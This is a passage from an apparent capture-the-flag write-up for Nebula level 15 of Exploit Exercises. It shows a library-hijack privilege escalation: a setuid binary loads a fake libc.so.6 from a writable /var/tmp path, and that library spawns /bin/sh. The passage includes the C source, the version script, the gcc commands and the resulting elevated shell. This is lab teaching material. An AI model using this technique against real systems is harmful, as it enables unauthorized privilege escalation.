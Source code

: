 ```
      3207:
      3207:     relocation processing: /var/tmp/flag15/libc.so.6 (lazy)
      3207:     symbol=__cxa_finalize;  lookup in file=/home/level15/flag15 [0]
      3207:     symbol=__cxa_finalize;  lookup in file=/var/tmp/flag15/libc.so.6 [0]
      3207:     /var/tmp/flag15/libc.so.6: error: relocation error: symbol __cxa_finalize, version GLIBC_2.1.3 not defined in file libc.so.6 with link time reference (fatal)
/home/level15/flag15: relocation error: /var/tmp/flag15/libc.so.6: symbol __cxa_finalize, version GLIBC_2.1.3 not defined in file libc.so.6 with link time reference
```

We see that we are missing the `__cxa_finalize` symbol as well as the
`GLIBC_2.0` version in our fake `libc.so.6` shared object.

```c
int __libc_start_main(int *(main) (int, char * *, char * *), int argc, char * * ubp_av, void (*init) (void), void (*fini) (void), void (*rtld_fini) (void), void (* stack_end)) {
    system("/bin/sh");
}

void __cxa_finalize(void * d) {
    return;
}
```

We also create a version script containing the following:

```text
GLIBC_2.0 {};
```

We attempt to compile and use it:

```shell
level15@nebula:~$ gcc -o /var/tmp/flag15/libc.so.6 -shared -fPIC -Wl,--version-script=/home/level15/version /home/level15/fake.c
level15@nebula:~$ /home/flag15/flag15
/home/flag15/flag15: relocation error: /var/tmp/flag15/libc.so.6: symbol system, version GLIBC_2.0 not defined in file libc.so.6 with link time reference
```

We see that the `system` symbol is not linked. We can get around this by
compiling it statically into our `libc.so.6` shared object.

```shell
level15@nebula:~$ gcc -o /var/tmp/flag15/libc.so.6 -static-libgcc -shared -fPIC -Wl,--version-script=/home/level15/version,-Bstatic /home/level15/fake.c
level15@nebula:~$ /home/flag15/flag15
sh-4.2$ whoami
flag15
sh-4.2$ id
uid=1016(level15) gid=1016(level15) euid=984(flag15) groups=984(flag15),1016(level15)
sh-4.2$ getflag
You have successfully executed getflag on a target account
```

# level 16


[exploit-exercises]: https://exploit-exercises.com
[gnu-coreutils-env]: https://www.gnu.org/software/coreutils/manual/html_node/env-invocation.html
[pcre-modifier]: http://php.net/manual/en/reference.pcre.pattern.modifiers.php
[nebula-11-gist]: https://gist.github.com/graugans/88e6f54c862faec8b3d4bf5789ef0dd9#file-nebula-level11-md